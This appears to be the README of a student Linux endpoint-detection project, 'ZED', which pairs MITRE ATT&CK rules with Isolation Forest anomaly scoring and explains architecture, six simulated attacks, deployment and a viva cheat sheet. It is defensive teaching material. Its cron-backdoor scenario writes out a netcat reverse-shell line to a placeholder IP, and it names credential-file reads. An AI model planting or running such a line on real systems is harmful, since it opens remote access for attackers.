


# ZED: Zero-day Endpoint Detection & Response (EDR)

```
  ███████╗███████╗██████╗ 
  ╚══███╔╝██╔════╝██╔══██╗   ZED: ZERO-DAY ENDPOINT DETECTION & RESPONSE
    ███╔╝ █████╗  ██║  ██║   Dual-Core: MITRE Rules + Isolation Forest ML
   ███╔╝  ██╔══╝  ██║  ██║   Linux Mint 64-bit Edition (8 GB RAM Profile)
  ███████╗███████╗██████╔╝
  ╚══════╝╚══════╝╚═════╝ 
  [ ZERO-DAY ENDPOINT DEFENSE & AUTOMATED INCIDENT RESPONSE ]
```

> **A Behavior-Based Endpoint Security Monitoring System for Linux**  
> **Core Architecture:** Real-Time Telemetry Pipeline $\rightarrow$ Dual Detection Engine (MITRE Rules + Isolation Forest Unsupervised ML) $\rightarrow$ Automated Incident Response $\rightarrow$ WebSocket Broadcast $\rightarrow$ Retro-Terminal Console & Victim Demo Portal.

---

## Table of Contents
1. [Why We Need ZED (The Problem)](#1-why-we-need-zed-the-problem)
2. [How ZED Works in the Background (Architecture & Data Flow)](#2-how-zed-works-in-the-background-architecture--data-flow)
   - [High-Level Architecture Diagram](#high-level-architecture-diagram)
   - [Event Processing Sequence Diagram](#event-processing-sequence-diagram)
   - [Codebase Structure & Module Directory](#codebase-structure--module-directory)
3. [Deep Dive: How the Code Works Step-by-Step](#3-deep-dive-how-the-code-works-step-by-step)
   - [Telemetry Collection (Agent)](#a-telemetry-collection-zedagentmonitorpy)
   - [Central Dispatcher (Nervous System)](#b-central-dispatcher-zedenginedispatcherpy)
   - [Threat Store (SQLite WAL Database)](#c-threat-store-zeddbpy)
   - [Automated Incident Response](#d-automated-incident-response-zedagentresponsepy)
   - [Collector API & WebSockets](#e-collector-api--websockets-zedcollectorserverpy)
4. [How the Machine Learning (ML) Engine Works](#4-how-the-machine-learning-ml-engine-works)
   - [Why AI / ML is Needed for Zero-Days](#why-ai--ml-is-needed-for-zero-days)
   - [The Isolation Forest Algorithm](#the-isolation-forest-algorithm)
   - [The 7-Dimensional Behavioral Feature Vector](#the-7-dimensional-behavioral-feature-vector)
   - [Baseline Learning vs. Live Scoring](#baseline-learning-vs-live-scoring)
   - [The Mathematics of Anomaly Isolation](#the-mathematics-of-anomaly-isolation)
5. [The Attacks: How They Work & How ZED Defends Against Them](#5-the-attacks-how-they-work--how-zed-defends-against-them)
   - [Scenario 1: Web Shell RCE (MITRE T1059.004)](#scenario-1-web-shell-rce-mitre-t1059004)
   - [Scenario 2: Rogue Scheduled Task / Cron Backdoor (MITRE T1053.003)](#scenario-2-rogue-scheduled-task--cron-backdoor-mitre-t1053003)
   - [Scenario 3: Ransomware Mass File Encryption (MITRE T1486)](#scenario-3-ransomware-mass-file-encryption-mitre-t1486)
   - [Scenario 4: Command & Control (C2) Beaconing (MITRE T1071.001)](#scenario-4-command--control-c2-beaconing-mitre-t1071001)
   - [Scenario 5: Authentication Brute Force Burst (MITRE T1110.001)](#scenario-5-authentication-brute-force-burst-mitre-t1110001)
   - [Scenario 6: The Simulated Zero-Day Proof (Signature Evasion)](#scenario-6-the-simulated-zero-day-proof-signature-evasion)
6. [Victim Web Portal (Demo for Non-Technical Observers)](#6-victim-web-portal-demo-for-non-technical-observers)
7. [System Limitations Explained Honestly](#7-system-limitations-explained-honestly)
8. [Deployment & Operations Guide](#8-deployment--operations-guide)
9. [College Viva & Examination Cheat Sheet](#9-college-viva--examination-cheat-sheet)

---

## 1. Why We Need ZED (The Problem)

### The Fundamental Flaw of Traditional Antivirus
Most traditional security products and antivirus programs (Windows Defender, ClamAV, legacy firewalls) are **signature-based**. They store a large database of known virus hashes (SHA-256) and static binary strings.

```
[ New File Appears ] ---> [ Calculate SHA-256 Hash ] ---> [ Check Known Signature Database ]
                                                                  │
                                      ┌───────────────────────────┴───────────────────────────┐
                                      ▼                                                       ▼
                             [ Match Found! ]                                        [ No Match Found ]
                                     │                                                       │
                             [ 🚨 BLOCK VIRUS ]                                      [ ✅ ALLOW EXECUTION ]
                                                                                             │
                                                                           (Zero-Days slip straight through!)
```

### What is a "Zero-Day"?
A **zero-day vulnerability** is a software security flaw unknown to the software developer, antivirus vendors, and the public. Because the vulnerability has never been documented before:
1. No antivirus signature exists.
2. No file hash exists.
3. Signature-based tools consider the malicious payload 100% clean.

### The Post-Exploitation Truth
Attackers can obfuscate their exploits and invent new binary payloads, but **they cannot hide what they do to the operating system after they break in**:
- A web server process (`nginx`, `apache`, `uvicorn`) should **never** spawn an interactive command shell (`/bin/bash`).
- Normal programs do not rapidly rename 25 documents with `.locked` extensions in under two seconds.
- Normal developers do not connect outward to suspicious external ports at exact 500-millisecond heartbeats.
- Stealthy novel exploits cause unnatural multi-dimensional spikes in process churn, socket entropy, and memory allocation variance.

**ZED does not inspect files for what they look like. ZED inspects the system for what processes do.**

---

## 2. How ZED Works in the Background (Architecture & Data Flow)

### High-Level Architecture Diagram



---

### Event Processing Sequence Diagram



---

### Codebase Structure & Module Directory

```
/home/anuj/Desktop/ZED/
├── zed/
│   ├── __init__.py               # Package descriptor and versioning
│   ├── config.py                 # Ports, paths, ML hyperparameters, safe process whitelist
│   ├── db.py                     # SQLite WAL interface for events, alerts, and baseline metrics
│   ├── models.py                 # TelemetryEvent, Alert, BehaviorFeatures data models
│   ├── agent/
│   │   ├── __init__.py
│   │   ├── monitor.py            # Kernel procfs, network socket, inotify, and sliding window engine
│   │   ├── response.py           # Whitelist validation, SIGKILL escalation, and iptables isolation
│   │   └── client.py             # HTTP client for multi-machine remote agent telemetry
│   ├── engine/
│   │   ├── __init__.py
│   │   ├── rule_engine.py        # MITRE ATT&CK rules (Web shell, cron, ransomware, beacon, brute force)
│   │   ├── ml_engine.py          # Isolation Forest unsupervised anomaly model & baseline generator
│   │   ├── dispatcher.py         # Central coordinator linking telemetry -> rules -> ML -> DB -> WebSockets
│   │   └── zed_baseline.joblib   # Persisted Scikit-Learn Isolation Forest baseline model
│   ├── collector/
│   │   ├── __init__.py
│   │   └── server.py             # FastAPI REST endpoints, WebSocket manager, and template renderer
│   ├── bot/
│   │   ├── __init__.py
│   │   └── attack_simulator.py   # Safe adversary emulator containing all 6 attack scenarios
│   └── web/
│       ├── static/
│       │   ├── terminal.css      # Retro Linux Mint console styling, CRT scanlines, and palettes
│       │   └── terminal.js       # WebSocket client, metric gauges, and interactive CLI interpreter
│       └── templates/
│           ├── index.html        # Main Defense Dashboard with Linux Mint Neofetch ASCII Hero
│           └── demo_portal.html  # Apex Health Clinic victim portal for non-tech demonstrations
├── Dockerfile                    # Multi-stage production container configuration
├── docker-compose.yml            # Docker Compose orchestration
├── zed.service                   # Linux Mint / Ubuntu systemd daemon unit file
├── deploy.sh                     # Interactive deployment assistant (systemd, Docker, LAN, Cloud)
├── render.yaml                   # Free cloud deployment configuration (Render / Railway)
├── requirements.txt              # Production Python package dependencies
├── run_all.py                    # One-command supervisor launcher
├── run_server.py                 # Collector daemon & embedded agent telemetry launcher
├── run_bot.py                    # Standalone attack simulator CLI
├── run_agent.py                  # Standalone remote endpoint agent
├── run_victim_site.py            # Standalone runner for the victim clinic portal on port 8080
└── README.md                     # Comprehensive technical documentation
```

---

## 3. Deep Dive: How the Code Works Step-by-Step

### A. Telemetry Collection (`zed/agent/monitor.py`)
The `AgentMonitor` class runs non-blocking background threads that continuously capture operating system state:

1. **Process Tracking (`_poll_processes`)**:
   - Iterates through `/proc` using `psutil.process_iter(['pid', 'name', 'ppid', 'cmdline'])`.
   - Compares the active PIDs against an internal set of known PIDs (`self._known_pids`).
   - When a new PID appears, it inspects the parent PID (`ppid`) to reconstruct the execution tree:
     ```python
     # Example: parent="fake_web_server", child="bash", cmdline="bash -i"
     parent_name = psutil.Process(ppid).name()
     ```
   - Emits a `PROCESS_SPAWN` event.

2. **Filesystem Watcher (`_start_file_monitoring`)**:
   - Uses `watchdog.observers.Observer` to hook into the Linux kernel `inotify` subsystem.
   - Schedules recursive monitoring on sensitive directories (`sandbox_target`, `sandbox_cron`).
   - Dispatches `CREATE`, `MODIFY`, `RENAME`, and `DELETE` filesystem events with zero CPU spin.

3. **Network Socket Monitoring (`_poll_network`)**:
   - Polls active TCP/UDP connections via `psutil.net_connections(kind='inet')`.
   - Records foreign destination IP addresses and ports, ignoring local loopback traffic (`127.0.0.1`).

4. **Sliding Window Aggregator (`_window_aggregation_loop`)**:
   - Runs on a strict 3-second heartbeat (`ML_WINDOW_SECONDS = 3`).
   - Counts total processes created, unique binary names, file modifications, network sockets, distinct foreign IPs, failed authentication attempts, and CPU load variance.
   - Compiles these metrics into a 7-dimensional numeric feature vector (`BehaviorFeatures`) and hands it to the Machine Learning Engine.

---

### B. Central Dispatcher (`zed/engine/dispatcher.py`)
The `ThreatDispatcher` acts as the central nervous system:
- **Event Intake**: Receives raw events from the monitor.
- **Persistence**: Immediately writes raw events to SQLite.
- **WebSocket Broadcast**: Sends events to all connected browser sessions.
- **Layer 1 Evaluation**: Passes events to `BehavioralRuleEngine`.
- **Layer 2 Evaluation**: Passes windowed feature vectors to `MLEngine`.
- **Automated Response Trigger**: If either engine flags a threat with `TERMINATE_PROCESS`, it forwards the target PID directly to `ResponseExecutor`.

---

### C. Threat Store (`zed/db.py`)
ZED uses SQLite with **Write-Ahead Logging (WAL)** enabled (`PRAGMA journal_mode = WAL;`).
- Normal SQLite locks the database file when writing, causing crashes in multi-threaded programs.
- WAL mode allows simultaneous asynchronous reads and writes without lock contention.
- Tables maintained:
  - `events`: Complete raw telemetry audit trail.
  - `alerts`: Rule-based and ML-based threat detection logs with MITRE IDs.
  - `responses`: Record of actions taken (e.g., `TERMINATE_PROCESS`, `SUCCESS`, `WHITELISTED`).
  - `ml_baseline`: Training run timestamps, sample counts, and contamination settings.

---

### D. Automated Incident Response (`zed/agent/response.py`)
When an alert with `TERMINATE_PROCESS` is raised, the `ResponseExecutor` intervenes:

1. **Safety Whitelist Check (`is_safe_to_kill`)**:
   To prevent self-sabotage or OS failure, it compares the target PID and executable name against a strict whitelist:
   ```python
   PROTECTED_PROCESS_NAMES = {
       "systemd", "init", "dbus-daemon", "Xorg", "cinnamon",
       "sshd", "bash" (parent shell), "code", "python3" (self)
   }
   ```
   If a hostile actor attempts to trick ZED into killing `systemd` (PID 1), the response is safely tagged as `WHITELISTED` and skipped.

2. **Termination Escalation (`terminate_process`)**:
   - First sends `SIGTERM` (signal 15) allowing clean resource release.
   - Waits up to 1.0 second.
   - If the process refuses to die, escalates to `SIGKILL` (signal 9) for immediate kernel eviction.

3. **Network Quarantine (`block_ip`)**:
   - Simulates/generates network-level packet drops:
     ```bash
     iptables -A OUTPUT -d <MALICIOUS_IP> -j DROP
     ```

---

### E. Collector API & WebSockets (`zed/collector/server.py`)
Built using **FastAPI** and **Starlette WebSockets**:
- Serves the retro-terminal UI at `http://localhost:8000/`.
- Serves the victim demo portal at `http://localhost:8000/demo`.
- Provides REST endpoints:
  - `GET /api/v1/stats`: Hardware telemetry (RAM profile, CPU, uptime, threat counts).
  - `GET /api/v1/alerts`: Chronological alert history.
  - `POST /api/v1/attack`: Triggers attack bot scenarios 1 through 6.
  - `POST /api/v1/train`: Retrains the Machine Learning baseline model.
  - `GET /api/v1/export`: Generates a downloadable Markdown incident evaluation report.
- `WS /ws`: Full-duplex WebSocket streaming kernel events and bot logs in real time.

---

## 4. How the Machine Learning (ML) Engine Works

```
                        ISOLATION FOREST ANOMALY DETECTION
                        
   Feature Space (7D)                      Decision Tree Partitioning
┌────────────────────────┐            ┌───────────────────────────────────┐
│ new_proc_rate:   9.5   │            │           [Root Node]             │
│ unique_binaries: 8     │            │           /         \             │
│ file_mod_rate:   5.0   │   ====>    │      [Normal]     [Split]         │
│ net_conn_rate:   6.2   │            │      /      \      /   \          │
│ distinct_ips:    7     │            │    [...]   [...] [...] [ANOMALY]  │
│ auth_fail_rate:  0.0   │            │                          │        │
│ cpu_entropy:    65.0   │            │                Isolated in 2 cuts!│
└────────────────────────┘            └───────────────────────────────────┘
```

### Why AI / ML is Needed for Zero-Days
- **Rules are rigid**: If an attacker writes a new attack that doesn't trigger one of our 5 specific rules, the Rule Engine score is **0**.
- **Isolation Forest is fluid**: It doesn't look for specific keywords or file extensions. It measures **mathematical distance from normal behavior**. When an attacker does something previously unseen, their behavior sticks out like a spike on a graph.

### The Isolation Forest Algorithm
ZED uses the **Isolation Forest** algorithm (Liu, Ting, Zhou, 2008), implemented via `scikit-learn`.
- Most anomaly detection algorithms (like SVMs or KNN) attempt to model where normal points cluster. This is computationally expensive and slow.
- Isolation Forest operates on an inverted principle: **anomalies are few and different**. Therefore, they are much easier to "isolate" using random decision trees than normal points.

### The 7-Dimensional Behavioral Feature Vector
Every 3 seconds, ZED calculates a feature vector $X \in \mathbb{R}^7$:

| Index | Feature Name | What It Measures | Normal Baseline Value | Zero-Day Attack Value |
|---|---|---|---|---|
| $x_1$ | `new_proc_rate` | Processes spawned per second | $\sim 0.2 - 0.8$ | $9.5$ (High burst) |
| $x_2$ | `unique_binaries` | Diversity of executables | $1 - 2$ | $8$ (Unusual tools) |
| $x_3$ | `file_mod_rate` | Files created/renamed/sec | $\sim 0.5$ | $5.0$ (High churn) |
| $x_4$ | `net_conn_rate` | Network sockets created/sec | $\sim 0.2$ | $6.2$ (Port sweep) |
| $x_5$ | `distinct_dest_ips` | Unique foreign destinations | $0 - 1$ | $7$ (Broad contact) |
| $x_6$ | `auth_fail_rate` | Failed logins per second | $0.0$ | $0.0$ (Stealthy) |
| $x_7$ | `cpu_entropy` | CPU load percentage fluctuation | $\sim 3 - 8\%$ | $65.0\%$ (Processing surge) |

---

### Baseline Learning vs. Live Scoring

#### 1. Baseline Training (`train_baseline`)
During initialization or when clicking **[TRAIN ML]**, ZED generates a profile representing normal Linux Mint desktop activity (developer coding, background daemons, idle system, routine web browsing) across 400 time windows.
- Fits an ensemble of 100 Isolation Trees (`n_estimators = 100`).
- Sets contamination factor to $0.04$ ($4\%$ margin).
- Computes mean ($\mu_i$) and standard deviation ($\sigma_i$) for each feature to allow human-readable divergence explanations.
- Saves the trained model to `zed/engine/zed_baseline.joblib`.

#### 2. Live Scoring (`score_features`)
When a live 3-second window arrives:
1. Feeds the 7D vector into the ensemble of 100 trees.
2. The model outputs a **Decision Score** $s \in [-1.0, +0.5]$:
   - **$s > 0.0$**: Data point is deep within normal clusters. (Example: $+0.142$ $\rightarrow$ System Nominal).
   - **$s < -0.05$**: Data point was isolated at very shallow tree depths $\rightarrow$ **ANOMALY DETECTED**.
3. Calculates the $Z$-score for each feature:
   $$Z_i = \frac{x_i - \mu_i}{\sigma_i}$$
4. Identifies which specific features diverged most (e.g., `cpu_entropy=65.0 (baseline ~4.8), new_proc_rate=9.5 (baseline ~0.49)`).
5. Raises an alert: `Zero-Day Behavioral Anomaly (Isolation Forest)`.

---

### The Mathematics of Anomaly Isolation
For a dataset of $n$ instances, the average path length of an unsuccessful search in a Binary Search Tree is:
$$c(n) = 2 \ln(n - 1) + 0.5772156649 \text{ (Euler's constant)} - \frac{2(n - 1)}{n}$$

The anomaly score $s(x, n)$ for an instance $x$ across an ensemble of trees with path lengths $h(x)$ is defined as:
$$s(x, n) = 2^{-\frac{\mathbb{E}(h(x))}{c(n)}}$$

- If $\mathbb{E}(h(x)) \to 0$, $s \to 1$ $\rightarrow$ **Definite Anomaly** (isolated in very few splits).
- If $\mathbb{E}(h(x)) \to n - 1$, $s \to 0$ $\rightarrow$ **Definitely Normal** (buried deep inside normal clusters).

---

## 5. The Attacks: How They Work & How ZED Defends Against Them

ZED includes an automated adversary emulator ([`zed/bot/attack_simulator.py`](file:///home/anuj/Desktop/ZED/zed/bot/attack_simulator.py)) covering 6 distinct post-exploitation scenarios:

```
┌────────────────────────────────────────────────────────────────────────┐
│                        ZED ATTACK SIMULATOR SUITE                      │
├────────────────────────────────────────────────────────────────────────┤
│ Scenario [1] : Web Shell Spawning Bash (MITRE T1059.004)               │
│ Scenario [2] : Rogue Scheduled Task / Cron Backdoor (MITRE T1053.003)  │
│ Scenario [3] : Ransomware File Rapid Rename (MITRE T1486)              │
│ Scenario [4] : Periodic Outbound C2 Beaconing (MITRE T1071.001)        │
│ Scenario [5] : Rapid Authentication Brute Force (MITRE T1110.001)      │
│ Scenario [6] : Simulated Zero-Day Anomaly (Rule Evasion Proof)         │
└────────────────────────────────────────────────────────────────────────┘
```

---

### Scenario 1: Web Shell RCE (MITRE T1059.004)

```
[ Attacker HTTP Exploit ] ---> [ Web Worker Process ]
                                       │ (spawns unauthorized child)
                                       ▼
                                [ /bin/bash PID: 3942 ]
                                       │
                                       ▼
               [ ZED Rule T1059.004 Detects Web->Shell Chaining ]
                                       │
                                       ▼
                 [ ⚔️ SIGKILL Issued -> PID 3942 Severed! ]
```

- **How the Attack Works**: An attacker exploits an arbitrary file upload or command injection bug in a web application (e.g., PHP, Python, Node). The web service spawns a subshell (`/bin/bash`) to execute commands like `whoami`, `cat /etc/passwd`, and dump customer databases.
- **How ZED Defends**:
  - The process monitor resolves the parent process name of all newly spawned shells.
  - `BehavioralRuleEngine` evaluates:
    ```python
    if parent_name in ["nginx", "apache2", "fake_web_server", "uvicorn"] and child_name in ["bash", "sh"]:
        trigger_critical_alert("T1059.004", action="TERMINATE_PROCESS")
    ```
  - `ResponseExecutor` immediately sends `SIGTERM` followed by `SIGKILL` to the child shell PID, cutting off attacker remote access.

---

### Scenario 2: Rogue Scheduled Task / Cron Backdoor (MITRE T1053.003)
- **How the Attack Works**: To maintain access even if the computer restarts, attackers create scheduled tasks. The simulator injects a persistence script into `sandbox_cron/zed_backdoor`:
  ```bash
  * * * * * root /bin/nc -e /bin/sh 198.51.100.42 4444
  ```
- **How ZED Defends**:
  - The Inotify filesystem monitor tracks file mutation events in scheduled task directories (`/etc/cron*`, `sandbox_cron`).
  - Upon receiving a `CREATE` or `MODIFY` event on a cron file, it instantly flags `MITRE T1053.003`, logs the exact payload, and raises a High-Severity alert.

---

### Scenario 3: Ransomware Mass File Encryption (MITRE T1486)

```
[ Ransomware Executable ] ---> [ Generates 15 Victim Files ]
                                       │
                                       ▼
                           [ Rapid Bulk Renaming ]
                       document_01.docx -> document_01.docx.locked
                       document_02.docx -> document_02.docx.locked
                                       │
                                       ▼
             [ ZED Sliding Window: >8 Encryptions in <3 Seconds ]
                                       │
                                       ▼
                 [ ⚔️ Encryptor Terminated -> Further Loss Halted ]
```

- **How the Attack Works**: The simulator generates 15 sample documents in `sandbox_target/` and executes a high-speed loop rapidly renaming them with `.locked` extensions and rewriting headers.
- **How ZED Defends**:
  - Tracks file mutation velocity in a rolling queue.
  - When $>8$ modifications occur in $<3.0$ seconds, or when multiple ransomware extensions (`.locked`, `.crypto`, `.enc`) are encountered in rapid succession, Rule `T1486` triggers.
  - The encryptor process is terminated immediately, preserving the remainder of the filesystem.

---

### Scenario 4: Command & Control (C2) Beaconing (MITRE T1071.001)
- **How the Attack Works**: Covert malware communicates with an attacker's Command & Control server by emitting periodic network heartbeats (beacons) at regular time intervals to receive instructions.
- **How ZED Defends**:
  - ZED records connection timestamps per destination IP/port tuple `(dest_ip, dest_port)`.
  - Calculates inter-arrival intervals: $\Delta t_i = t_i - t_{i-1}$.
  - Computes rhythm jitter: $\text{Jitter} = \max(|\Delta t_i - \overline{\Delta t}|)$.
  - If $\text{Jitter} \le 1.0\text{s}$ across 3+ consecutive pulses, ZED flags `MITRE T1071.001` (C2 Beaconing) and triggers network isolation against that destination.

---

### Scenario 5: Authentication Brute Force Burst (MITRE T1110.001)
- **How the Attack Works**: An automated dictionary bot launches high-frequency failed authentication attempts against SSH or system authentication sinks (e.g., trying passwords for `admin`, `root`, `oracle`, `user`).
- **How ZED Defends**:
  - Maintains a sliding window of authentication failure events.
  - When $\ge 5$ failed attempts occur within a 10-second window, it raises `MITRE T1110.001` (Brute Force Velocity) and logs the offending source IP.

---

### Scenario 6: The Simulated Zero-Day Proof (Signature Evasion)

> [!IMPORTANT]
> **This is the core proof experiment for your teacher or viva examiner.**  
> It demonstrates why signature rules alone are insufficient and proves that unsupervised Machine Learning catches what hardcoded rules miss.

```
┌────────────────────────────────────────────────────────────────────────┐
│                   SCENARIO 6: THE ZERO-DAY COMPARISON                  │
├───────────────────────────────────┬────────────────────────────────────┤
│ ❌ TRADITIONAL BEHAVIORAL RULES   │ ✅ ZED ISOLATION FOREST (ML)       │
├───────────────────────────────────┼────────────────────────────────────┤
│ • Rules Matched: 0                │ • Decision Score: -0.236 (ANOMALY) │
│ • Web Shell Rule: MISSED          │ • Contamination Index: Exceeded    │
│ • Cron Rule:      MISSED          │ • Divergence: cpu_entropy=65.0     │
│ • Ransomware Rule:MISSED          │ • Divergence: new_proc_rate=9.5    │
│ • Result: Signature Evaded        │ • Result: 🚨 ZERO-DAY ALERT RAISED │
└───────────────────────────────────┴────────────────────────────────────┘
```

- **How the Attack Works**:
  - The simulator executes a synthetic multi-vector sequence that **deliberately avoids all 5 rule conditions**:
    - Does *not* spawn bash from a web server.
    - Does *not* write to cron paths.
    - Does *not* rename files with `.locked`.
    - Does *not* use a fixed-interval beacon port.
    - Does *not* make failed login attempts.
  - Instead, it launches atypical unlisted worker threads (`kworker_hypo`, `mem_alloc_probe`), spikes process churn ($9.5/\text{s}$), creates socket entropy across multiple addresses, and fluctuates CPU load ($65\%$).
- **The Defense Result**:
  - **Rule Engine**: Reports `0 RULES MATCHED` (The attacker would have successfully slipped past signature-only defenses).
  - **Machine Learning Engine**: The 7D feature vector maps far outside the normal baseline bounds. The Isolation Forest isolates the vector at a shallow tree depth, returns a negative score ($-0.236$), and triggers:
    ```
    [ALERT] Zero-Day Behavioral Anomaly (Isolation Forest)
    Score: -0.236 | Anomalous metrics: cpu_entropy=65.0, new_proc_rate=9.5, net_conn_rate=6.2
    ```

---

## 6. Victim Web Portal (Demo for Non-Technical Observers)

To explain ZED to non-technical observers, the project includes an interactive healthcare portal:

🌐 **URL**: `http://localhost:8000/demo` *(or click `[ 🏥 VICTIM DEMO PORTAL ↗ ]` in the ZED header)*  
🏥 **Organization**: **Apex Community Health Clinic**

```
┌────────────────────────────────────────────────────────────────────────┐
│ 🎯 DEMO BAR: [💣 Web Shell] [🔒 Ransomware] [🔑 Brute Force] [⚡ Zero-Day]│
├────────────────────────────────────────────────────────────────────────┤
│  Apex Community Health Clinic                 Status: Online & Secure  │
│                                                                        │
│  [Patient Directory]                          [Upload Lab Report]      │
│  #101 Alice Smith - Cardio - alice_scan.pdf    Drop scan file here...  │
│  #102 Bob Jones   - Surg   - jones_chart.dat                           │
│                                               [Staff Login]            │
│                                               dr_smith | ••••••••      │
└────────────────────────────────────────────────────────────────────────┘
```

### What Non-Technical Viewers See
1. **Normal Clinic State**: Clean medical directory, doctor login box, lab report upload area.
2. **Clicking `[💣 1. Web Shell Exploit]`**: Disguised file is uploaded. An attacker terminal pops open inside the clinic portal running commands to steal patient records. Within 2 seconds, ZED's automated response terminates the process, turning the terminal green with `[KILLED BY ZED EDR RESPONSE]`.
3. **Clicking `[🔒 2. Ransomware Attack]`**: Patient medical charts rapidly turn red and are renamed to `.locked` with padlock icons. ZED halts the encryption process before the database is destroyed.
4. **Clicking `[⚡ 4. Stealth Zero-Day]`**: A side-by-side comparison box shows traditional antivirus giving a `PASSED / CLEAN` rating while ZED's Machine Learning highlights an anomalous divergence score of $-0.24$.

---

## 7. System Limitations Explained Honestly

Being honest about system limitations demonstrates academic integrity and deep engineering understanding:

### Limitation 1: Post-Exploitation Detection (Not Vulnerability Prevention)
- **Smoke Detector Analogy**: A smoke detector does not prevent a match from being struck; it alerts you the instant smoke enters the hallway.
- **Reality**: ZED does not patch vulnerable website code or prevent buffer overflows. It detects what an attacker does *after* gaining execution. The initial exploit succeeds momentarily before ZED observes the behavior and kills the process.

### Limitation 2: The "Low & Slow" Stealth Attacker
- **Slow Thief Analogy**: A thief who carries one notebook out of the building every two hours blends into normal crowd movement.
- **Reality**: ZED evaluates behavioral velocity over rolling windows. If a patient attacker executes commands slowly over days and uses native administrative tools ("Living off the Land"), their activity may blend into the normal baseline.

### Limitation 3: User-Space vs. Kernel-Space Architecture
- **Lobby Guard Analogy**: A security guard standing in the lobby vs. a guard built into the building's foundation.
- **Reality**: Commercial enterprise EDRs (like CrowdStrike Falcon) install kernel drivers (`Ring 0` / `eBPF`). ZED runs in user-space using standard Python (`psutil`, `inotify`). If an attacker gains full `root` privileges, they could theoretically issue a `kill -9` against ZED's process.

### Limitation 4: Baseline Quality & False Positives
- **Guard Dog Analogy**: A guard dog trained only in a quiet room might bark at a delivery truck.
- **Reality**: If the Machine Learning baseline is trained while the machine is idle, a legitimate heavy task (like compiling a large software project or copying 10,000 photos) could deviate from the baseline and trigger a false alarm.

---

## 8. Deployment & Operations Guide

### Quickstart (One Command)
```bash
cd /home/anuj/Desktop/ZED
python3 run_all.py
```
Open `http://localhost:8000` for the Terminal Interface and `http://localhost:8000/demo` for the Victim Clinic Portal.

---

### The 4 Production Deployment Options

Run the interactive deployment assistant:
```bash
./deploy.sh
```

#### Option 1: Linux Background Service (`systemd`)
Runs continuously on boot as a Linux daemon:
```bash
sudo cp zed.service /etc/systemd/system/zed.service
sudo systemctl daemon-reload
sudo systemctl enable --now zed.service
```
- Check status: `sudo systemctl status zed.service`
- View live logs: `sudo journalctl -u zed.service -f`

#### Option 2: Local Network (Wi-Fi / LAN) Access
Because ZED binds to `0.0.0.0:8000`, any phone, tablet, or laptop on the same Wi-Fi can view it:
1. Find your local IP: `hostname -I | awk '{print $1}'` (e.g. `192.168.1.45`).
2. Open `http://192.168.1.45:8000` on any device on your Wi-Fi.

#### Option 3: Free Public HTTPS Link (Cloudflare Tunnel)
To present your live system to an examiner or teacher remotely without opening router ports:
```bash
npx -y cloudflared tunnel --url http://127.0.0.1:8000
```
Generates a temporary public link (e.g., `https://random-words.trycloudflare.com`).

#### Option 4: Docker Container
```bash
docker compose up -d --build
```
Access at `http://localhost:8000`.

---

## 9. College Viva & Examination Cheat Sheet

When presenting ZED to your teacher or external examiners, use these concise explanations:

| Question / Topic | Model Answer |
|---|---|
| **What is ZED?** | "ZED is a lightweight, behavior-based Endpoint Detection and Response system for Linux that uses a dual engine—MITRE ATT&CK rules and unsupervised Isolation Forest Machine Learning—to catch post-exploitation zero-day activity." |
| **Why not just use Antivirus?** | "Antivirus uses static signatures (file hashes). Zero-days have no signatures, so traditional antivirus cannot detect them. ZED looks at behavioral anomalies instead of static hashes." |
| **Why Isolation Forest instead of Deep Learning / LLMs?** | "Deep learning requires GPUs, tens of gigabytes of RAM, and introduces high latency. Isolation Forest is unsupervised, needs no labeled attack data, trains in under 1 second, runs smoothly on 8 GB RAM, and scores system behavior in under 5 milliseconds." |
| **What is the difference between AI and ML in ZED?** | "AI is the broad discipline of creating intelligent machines. Machine Learning is the specific subset where algorithms learn patterns from data. Calling ZED an AI-driven security system powered by Machine Learning is 100% technically accurate." |
| **How does Scenario 6 prove your thesis?** | "In Scenario 6, the attack bypasses all 5 rule signatures. Traditional antivirus would see 0 threats. However, ZED's Isolation Forest model flags the anomalous multi-dimensional divergence with a score of $-0.24$, proving that unsupervised ML catches zero-days that rules miss." |
